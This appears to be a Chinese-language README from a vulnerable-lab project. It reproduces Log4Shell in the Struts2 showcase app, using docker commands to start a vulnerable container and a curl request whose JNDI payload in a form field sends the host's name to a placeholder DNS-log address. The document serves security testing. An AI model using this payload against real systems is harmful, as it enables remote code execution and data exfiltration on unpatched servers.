 # Struts官方用例showcase触发log4j RCE

## Struts showcase

路径：struts/apps/showcase

![](1.png)

## 一键拉起showcase环境

```
docker pull vultarget/log4j2-struts2-showcase:2.14.1

docker run --name struts2-showcase -d -p 8360:8080 vultarget/log4j2-struts2-showcase:2.14.1
```

![](2.png)


## 成功带出docker中的hostname信息

```
curl -vso /dev/null http://127.0.0.1:8360/struts2-showcase/token/transfer4.action -d struts.token.name='${jndi:dns://${hostName}.yourdnslogaddr}'
```

![](3.png)

## 参考链接

https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis